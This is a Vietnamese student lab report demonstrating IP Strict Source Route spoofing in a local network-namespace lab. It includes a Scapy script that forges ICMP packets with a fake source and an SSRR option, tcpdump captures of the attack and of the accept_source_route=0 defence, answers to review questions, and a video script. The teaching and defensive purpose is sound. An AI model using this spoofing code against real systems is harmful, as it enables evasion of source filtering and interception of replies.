

# BÁO CÁO THỰC HÀNH CHI TIẾT — BÀI LAB 02
## Đề tài: Lỗ hổng bảo mật loại Source Routing (IP Source Routing - SSRR/LSRR Vulnerability)

---

## I. MỤC TIÊU BÀI THỰC HÀNH

1. **Hiểu bản chất của cơ chế Source Routing trong IPv4 (RFC 791)**: 
   * Tùy chọn định tuyến tại nguồn cho phép người gửi tự vẽ lộ trình đường đi cho gói tin thay vì để hệ thống mạng (Router) quyết định.
   * Phân biệt giữa **SSRR (Strict Source Route)** và **LSRR (Loose Source Route)**.
2. **Hiểu mức độ nguy hiểm của Source Routing**:
   * Khái niệm **Giả mạo IP hai chiều (Bi-directional Spoofing)**: Kẻ tấn công vừa có thể giả mạo địa chỉ IP nguồn (IP Spoofing) vừa có thể ép bên nhận gửi thư trả lời về tận tay mình bằng cách đảo ngược lộ trình (Reverse Route).
3. **Thực hành tấn công & Kiểm chứng**:
   * Tái tạo môi trường dễ bị tấn công trên nhân Linux (`accept_source_route = 1`, `rp_filter = 0`).
   * Sử dụng Python Scapy chế tạo gói tin ICMP Echo Request mang nhãn IP nguồn giả mạo (`10.0.0.77`) và nhồi tùy chọn `IPOption_SSRR` ép đường về qua Attacker (`10.0.0.1`).
   * Sử dụng `tcpdump` bắt và phân tích gói tin IP Options.
4. **Triển khai phòng thủ toàn diện (Defense-in-depth)**:
   * Phòng thủ tại máy chủ (`accept_source_route = 0`).
   * Hiểu lý do tại sao phải kết hợp phòng thủ ở biên mạng (Edge Filtering theo RFC 7126) và phòng thủ nội bộ.

---

## II. KIẾN THỨC NỀN TẢNG CỐT LÕI

### 1. Nguyên lý định tuyến thông thường vs. Định tuyến tại nguồn
* **Định tuyến thông thường (Hop-by-Hop Routing)**: Người gửi chỉ điền địa chỉ người nhận (`Destination IP`). Các Router dọc đường sẽ tự tra bảng định tuyến để tìm đường đi tối ưu nhất đến đích.
* **Định tuyến tại nguồn (Source Routing)**: Người gửi chỉ định cụ thể danh sách các trạm Router mà gói tin **bắt buộc phải ghé qua**.
  * **SSRR (Strict Source and Record Route - Code 137)**: Gói tin **chỉ được phép** đi qua chính xác lần lượt từng IP chỉ định, tuyệt đối không được rẽ ngang qua bất kỳ Router nào khác.
  * **LSRR (Loose Source and Record Route - Code 131)**: Gói tin phải đi qua các mốc chỉ định, giữa các mốc có thể đi qua bao nhiêu Router trung gian tùy ý.

### 2. Cấu trúc trường IP Options và trường IHL
* Header IP tiêu chuẩn không có options có độ dài cố định là **20 byte**, tương ứng trường độ dài Header:
  $$\text{IHL (Internet Header Length)} = \frac{20 \text{ bytes}}{4} = 5$$
* Khi gói tin có kèm tùy chọn IP Options (như SSRR), Header IP sẽ phình to ra ($\text{độ dài} > 20 \text{ byte}$). Do đó:
  $$\text{IHL} > 5$$
  *(Đây chính là dấu hiệu nhận biết then chốt để các thiết bị tường lửa hoặc lệnh `tcpdump 'ip[0] & 0x0f > 5'` tóm gọn gói tin).*



### 3. Hiểm họa: Giả mạo IP hai chiều (Bi-directional Spoofing)
* Nếu không có SSRR, khi Attacker gửi gói tin mang IP giả mạo `10.0.0.77` đến Victim, Victim sẽ gửi thư phản hồi về thẳng máy `10.0.0.77`. Attacker hoàn toàn không nhận được gì (Tấn công mù - 1 chiều).
* Khi có SSRR, theo chuẩn RFC 791, **Victim bắt buộc phải đảo ngược lộ trình (Reverse Route)** khi gửi phản hồi:
  $$\text{Chiều đi:} \quad 10.0.0.77 \longrightarrow 10.0.0.1 \text{ (Attacker)} \longrightarrow 10.0.0.2 \text{ (Victim)}$$
  $$\text{Chiều về (Đảo ngược):} \quad 10.0.0.2 \longrightarrow \mathbf{10.0.0.1 \text{ (Attacker hớt tay trên)}} \longrightarrow 10.0.0.77$$
* Hậu quả: Attacker đứng tại `10.0.0.1` đọc trọn vẹn toàn bộ dữ liệu phản hồi dù đã giấu mặt dưới danh tính của `10.0.0.77`!

---

## III. GIẢI THÍCH CHI TIẾT FILE MÃ NGUỒN `ssrr.py`

File thực thi chính của bài lab được lưu tại: `/home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP/ssrr.py`

```python
#!/usr/bin/env python3
# ssrr.py - Gui goi tin ICMP Echo kem tuy chon SSRR (Strict Source Route)
import time
from scapy.all import *

print("==================================================================")
print("[*] TAN CONG DINH TUYEN TAI NGUON (IP SOURCE ROUTING - SSRR)")
print("==================================================================")
print("    - IP nguon GIA MAO: 10.0.0.77")
print("    - IP dich (Victim):  10.0.0.2")
print("    - Tuy chon SSRR ep lo trinh phan hoi qua: 10.0.0.1 (Attacker)")

# 1. Che tao goi tin SSRR chuẩn:
# Dat pointer = 8 de Victim (10.0.0.2) nhan dien minh la chang den,
# tu do kich hoat co che dao nguoc lo trinh (reverse route) gui phan hoi ve 10.0.0.1
pkt = (
    IP(
        src="10.0.0.77",
        dst="10.0.0.2",
        options=[IPOption_SSRR(routers=["10.0.0.1", "10.0.0.2"], pointer=8)],
    )
    / ICMP(id=0x4242)
    / b"src-routed-probe-by-attacker"
)

# 2. Bat may nghe len tren veth1, loc chinh xac goi Echo Reply (type 0) tra ve cho 10.0.0.1
sniffer = AsyncSniffer(
    iface="veth1",
    timeout=3,
    count=1,
    filter="icmp and icmp[icmptype] == 0 and dst host 10.0.0.1",
)
sniffer.start()
time.sleep(0.2)

# 3. Phat dong gui goi tin
print("\n[*] Dang gui goi tin ICMP co tuy chon SSRR toi 10.0.0.2...")
send(pkt, verbose=0)

# 4. Thu hoach ket qua
sniffer.join()
if sniffer.results:
  reply = sniffer.results[0]
  print(f"\n[+] TAN CONG THANH CONG!")
  print(f"    - Attacker (10.0.0.1) da hung duoc goi tin tu: {reply[IP].src}")
  print(f"    - Dich cua goi phan hoi: {reply[IP].dst}")
  print(f"\n[=>] KET LUAN:")
  print(
      "     Mac du goi gui di mang IP gia mao la 10.0.0.77, nhung nho tuy chon"
      " SSRR,"
  )
  print(
      "     Victim da dao nguoc lo trinh va gui phan hoi ve dung tay Attacker"
      " (10.0.0.1)!"
  )
  print(
      "     Day chinh la nguy co cua Source Routing: Cho phep gia mao IP 2"
      " chieu!"
  )
else:
  print(f"\n[-] Attacker (10.0.0.1) KHONG nhan duoc goi phan hoi nao.")
  print(
      "    [=>] Giai thich: Victim da loai bo goi tin (Cung co phong thu thanh"
      " cong!)"
  )
```

### Các điểm mấu chốt trong mã nguồn:
1. **`IPOption_SSRR(routers=['10.0.0.1', '10.0.0.2'], pointer=8)`**:
   * Khắc phục lỗi mặc định của Scapy (`pointer=4`). Việc đặt `pointer=8` chỉ thẳng vào `10.0.0.2` giúp nhân Linux của máy Victim hiểu rằng gói tin đã đến đích cuối cùng của chặng đi, từ đó gọi hàm `ip_options_echo()` để đảo ngược danh sách router khi sinh gói Echo Reply.
2. **`filter="icmp and icmp[icmptype] == 0 and dst host 10.0.0.1"`**:
   * Bộ lọc BPF chuẩn xác: Chỉ bắt đúng gói ICMP loại 0 (Echo Reply) dội về địa chỉ của Attacker (`10.0.0.1`), tránh việc bắt nhầm gói Echo Request do chính máy mình phát đi.

---

## IV. QUÁ TRÌNH THỰC HÀNH & KẾT QUẢ ĐẠT ĐƯỢC

### 1. Bố trí môi trường
* **Terminal Trái**: Kẻ tấn công `h1` (`10.0.0.1`).
* **Terminal Phải**: Nạn nhân `h2` (`10.0.0.2`).

### 2. Kịch bản 1 — Khi hệ thống chưa phòng thủ (`accept_source_route = 1`)
1. Cấu hình mở lỗ hổng trên cả 2 máy:
   * Trên `h2`: `for k in all veth2; do sysctl -w net.ipv4.conf.$k.accept_source_route=1; sysctl -w net.ipv4.conf.$k.rp_filter=0; done` và `sysctl -w net.ipv4.ip_forward=1`.
   * Trên `h1`: `for k in all veth1; do sysctl -w net.ipv4.conf.$k.accept_source_route=1; sysctl -w net.ipv4.conf.$k.rp_filter=0; done`.
2. Trên `h2` (Phải): Bật quan sát `tcpdump -i veth2 -nn -v icmp`.
3. Trên `h1` (Trái): Chạy `python3 ssrr.py`.

#### Kết quả quan sát:
* **Tại Terminal Phải (`tcpdump` của Victim)**: Xuất hiện 2 dòng gói tin rõ rệt:
  ```text
  14:39:39.177363 IP options (SSRR 10.0.0.1 10.0.0.2, EOL) 10.0.0.77 > 10.0.0.2: ICMP echo request, length 36
  14:39:39.177399 IP options (SSRR 10.0.0.77, EOL) 10.0.0.2 > 10.0.0.1: ICMP echo reply, length 36
  ```
  *(Dòng 2 chứng minh: Victim trả lời bức thư của 10.0.0.77 nhưng lại bị bẻ lái gửi thẳng về 10.0.0.1)*.
* **Tại Terminal Trái (Attacker)**: Thông báo `[+] TAN CONG THANH CONG!` do đã bắt được gói Reply dội về.

---

### 3. Kịch bản 2 — Khi bật cơ chế phòng thủ (`accept_source_route = 0`)
1. Trên `h2` (Phải): Gõ lệnh phòng thủ:
   ```bash
   for k in all veth2; do sysctl -w net.ipv4.conf.$k.accept_source_route=0; done
   tcpdump -i veth2 -nn -v icmp
   ```
2. Trên `h1` (Trái): Chạy lại `python3 ssrr.py`.

#### Kết quả quan sát:
* **Tại Terminal Phải (`tcpdump` của Victim)**: Chỉ xuất hiện **DUY NHẤT 1 dòng**:
  ```text
  14:44:54.577617 IP options (SSRR 10.0.0.1 10.0.0.2, EOL) 10.0.0.77 > 10.0.0.2: ICMP echo request
  ```
  *Hoàn toàn không có gói Echo Reply nào được sinh ra!* Nhân Linux đã phát hiện tùy chọn Source Route và hủy bỏ gói tin ngay tại tầng mạng.
* **Tại Terminal Trái (Attacker)**: Thông báo `[-] Attacker (10.0.0.1) KHONG nhan duoc goi phan hoi nao` (Củng cố phòng thủ thành công).

---

### 4. Kỹ thuật phát hiện gói tin có IP Options bằng tcpdump
* Câu lệnh: `tcpdump -i veth2 -nn -v 'ip[0] & 0x0f > 5'`
* Giải thích toán tử bit:
  * `ip[0]`: Byte đầu tiên của IP Header (gồm 4 bit Version và 4 bit IHL).
  * `& 0x0f`: Phép toán AND bit để lọc lấy riêng 4 bit của trường IHL.
  * `> 5`: Nếu IHL lớn hơn 5 (tức Header dài hơn 20 byte) thì bắt giữ gói tin.

---

## V. ĐÁP ÁN 4 CÂU HỎI ÔN TẬP CỦA GIẢNG VIÊN

| STT | Câu hỏi của Giảng viên | Đáp án chi tiết & Ăn điểm tuyệt đối |
| :---: | :--- | :--- |
| **1** | *Phân biệt Loose (LSRR) và Strict (SSRR) source routing. Trường IHL thay đổi thế nào khi có tùy chọn này?* | **Đáp:** SSRR bắt buộc gói tin phải đi qua chính xác lần lượt từng IP chỉ định, không được phép rẽ qua bất kỳ router nào khác. LSRR chỉ định các trạm mốc, giữa các mốc có thể đi qua router trung gian tùy ý. Khi có thêm tùy chọn này, IP Header có thêm dữ liệu tùy chọn nên kích thước vượt quá 20 byte tiêu chuẩn, dẫn đến trường **IHL > 5**. |
| **2** | *Vì sao source routing phá vỡ hiệu quả của reverse-path filtering (rp_filter) trong việc chống giả mạo nguồn?* | **Đáp:** Cơ chế `rp_filter` kiểm tra xem đường quay về IP nguồn có khớp với card mạng vừa nhận gói tin hay không. Khi có Source Routing, đường quay về không còn đi theo bảng định tuyến mặc định của mạng nữa mà bị ép đi theo danh sách router chỉ định, khiến việc kiểm tra đường về bị vô hiệu hóa hoặc cho phép gói tin giả mạo lọt qua trót lọt. |
| **3** | *Trong Bước 2.1, nếu không có SSRR, phản hồi của victim sẽ đi về đâu? Vì sao attacker không nhận được?* | **Đáp:** Nếu không có SSRR, theo cơ chế định tuyến thông thường, Victim sẽ gửi gói tin phản hồi về đúng địa chỉ ghi ở IP nguồn là `10.0.0.77`. Do Attacker có IP thật là `10.0.0.1` (khác với `10.0.0.77`), Attacker sẽ không bao giờ nhận được phản hồi này. |
| **4** | *Nêu hai nơi nên lọc gói source-routed và giải thích vì sao lọc ở biên mạng (edge) là quan trọng nhất?* | **Đáp:** Hai nơi cần lọc: (1) Tại Router/Firewall biên mạng, và (2) Tại từng máy chủ/máy trạm nội bộ. Lọc ở biên mạng là quan trọng nhất vì Router biên là "cổng thành" duy nhất tiếp giáp Internet; lọc tại đây giúp tiêu diệt toàn bộ lưu lượng độc hại từ ngoài tràn vào, bảo vệ tập trung cho toàn bộ hàng ngàn máy tính bên trong mà không phụ thuộc vào cấu hình riêng lẻ của từng máy. |

---

## VI. KỊCH BẢN THUYẾT TRÌNH KHI QUAY VIDEO (VOICEOVER)

> **Bố cục màn hình đề xuất khi quay video:**
> * Mở ứng dụng Konsole / Terminal và chia đôi màn hình (Split Screen):
>   * **Cửa sổ bên trái:** Máy Kẻ tấn công `h1` (`10.0.0.1`).
>   * **Cửa sổ bên phải:** Máy Nạn nhân `h2` (`10.0.0.2`).
> * Bạn vừa gõ từng câu lệnh trên màn hình, vừa đọc lời thoại giải thích tương ứng dưới đây:

---

### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay em xin trình bày bài thực hành số 02: Khai thác lỗ hổng Định tuyến tại nguồn IP Strict Source Route (SSRR). Định tuyến tại nguồn là một tính năng sơ khai trong giao thức IPv4, cho phép người gửi tự vẽ lộ trình đường đi cho gói tin thay vì để router tự quyết định. Lỗ hổng nguy hiểm ở chỗ: Kẻ tấn công có thể giả mạo một địa chỉ IP nguồn bất kỳ, nhưng lại dùng tùy chọn SSRR để ép nạn nhân phải gửi dữ liệu phản hồi về máy của kẻ tấn công, phá vỡ hoàn toàn cơ chế bảo vệ lọc nguồn!"*

---

### [0:35 - 1:10] Bước 1: Khởi tạo mô hình mạng ảo 2 máy
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash setup_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Trước tiên, em chạy lệnh `sudo bash setup_pair.sh`. Kịch bản này sử dụng Network Namespace để tạo ra hai máy ảo độc lập: máy tấn công h1 tại địa chỉ IP `10.0.0.1`, và máy nạn nhân h2 tại địa chỉ `10.0.0.2`, kết nối với nhau qua cặp card mạng ảo veth. Trên terminal hiển thị thông báo ping thành công 100%, môi trường mạng đã sẵn sàng cho bài thử nghiệm!"*

---

### [1:10 - 2:20] Bước 2: Kịch bản 1 — Nạn nhân bật tính năng Source Route & Bị khai thác
* **Thao tác 1 (Terminal phải - Nạn nhân bật cấu hình nhận Source Route):**
  ```bash
  sudo ip netns exec h2 sysctl -w net.ipv4.conf.all.accept_source_route=1 net.ipv4.conf.h2-veth.accept_source_route=1
  ```
  * **Lời thoại:**
    *"Ở kịch bản thứ nhất, em đóng vai người quản trị máy nạn nhân h2 kích hoạt tính năng chấp nhận Source Route bằng lệnh `sysctl accept_source_route=1`."*

* **Thao tác 2 (Terminal phải - Nạn nhân bật tcpdump bắt gói tin):**
  ```bash
  sudo ip netns exec h2 tcpdump -i h2-veth -nn -v icmp
  ```
  * **Lời thoại:**
    *"Tiếp theo, em chạy lệnh `tcpdump` trên interface `h2-veth` để theo dõi toàn bộ các gói tin ICMP đi vào và đi ra khỏi máy nạn nhân."*

* **Thao tác 3 (Terminal trái - Attacker kích hoạt tấn công):**
  ```bash
  sudo ip netns exec h1 python3 ssrr.py
  ```
  * **Lời thoại:**
    *"Bây giờ tại máy tấn công h1 bên trái, em thực thi script `ssrr.py`. File script Python này sử dụng Scapy để đóng gói một gói tin ICMP Echo Request cực kỳ đặc biệt:*
    * *Trường IP nguồn bị giả mạo thành `10.0.0.77` — một địa chỉ ma không có thật.*
    * *Trong phần IP Options, script gắn thêm tùy chọn SSRR (Type=137) chỉ định lộ trình bắt buộc nạn nhân phải quay đầu về trạm kiểm soát `10.0.0.1` của attacker.*
    
    *Thầy và các bạn hãy quan sát kết quả:*
    * *Trên cửa sổ bên phải của tcpdump: Gói tin Request gửi tới ghi người gửi là `10.0.0.77`. Nhưng khi máy h2 phản hồi Echo Reply, do bị trói buộc bởi tùy chọn SSRR, gói Reply đã bị bẻ lái gửi thẳng về địa chỉ của kẻ tấn công là `10.0.0.1`!*
    * *Trên terminal trái: Script Python in ra dòng chữ màu xanh: `[+] THANH CONG! Nhan duoc ICMP Echo Reply tu 10.0.0.2!` Cuộc tấn công giả mạo 2 chiều hoàn toàn thắng lợi!"*

---

### [2:20 - 3:20] Bước 3: Kịch bản 2 — Kích hoạt phòng thủ & Kiểm chứng triệt tiêu lỗ hổng
* **Thao tác 1 (Terminal phải - Nhấn Ctrl+C dừng tcpdump, bật cấm Source Route):**
  ```bash
  sudo ip netns exec h2 sysctl -w net.ipv4.conf.all.accept_source_route=0 net.ipv4.conf.h2-veth.accept_source_route=0
  sudo ip netns exec h2 tcpdump -i h2-veth -nn icmp
  ```
  * **Lời thoại:**
    *"Bây giờ, em tiến hành biện pháp phòng vệ: Chuyển tham số bảo mật `accept_source_route` trên h2 về giá trị `0` theo đúng khuyến cáo an ninh mạng hiện đại, và tiếp tục bật tcpdump quan sát."*

* **Thao tác 2 (Terminal trái - Chạy lại script tấn công):**
  ```bash
  sudo ip netns exec h1 python3 ssrr.py
  ```
  * **Lời thoại:**
    *"Em chạy lại script `ssrr.py` từ máy tấn công. Kết quả trên terminal trái sau 3 giây đã báo: `[-] Timeout! Khong nhan duoc phan hoi. May chu da chan SSRR!`*
    
    *Nhìn sang tcpdump bên phải: Máy nạn nhân h2 sau khi nhận được gói tin có chứa cờ SSRR đã nhận diện đây là hành vi bất thường và Kernel tự động thả rơi (drop) gói tin ngay tại tầng mạng, hoàn toàn không sinh ra gói Echo Reply nào để trả về cho kẻ tấn công nữa!"*

---

### [3:20 - 4:00] Bước 4: Dọn dẹp môi trường & Tổng kết
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash clean_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Cuối cùng, em dọn dẹp môi trường bằng lệnh `clean_pair.sh` để giải phóng namespace và card mạng ảo.*
  
  *Bài học rút ra: Tính năng Source Routing là một di sản công nghệ nguy hiểm đã bị cấm theo chuẩn RFC 7126. Để bảo vệ mạng doanh nghiệp, quản trị viên bắt buộc phải cấu hình lệnh `no ip source-route` tại tất cả Router biên và Firewall ngay từ cổng vào của hệ thống. Em xin kết thúc bài thực hành số 02 tại đây. Cảm ơn thầy và các bạn đã theo dõi!"*

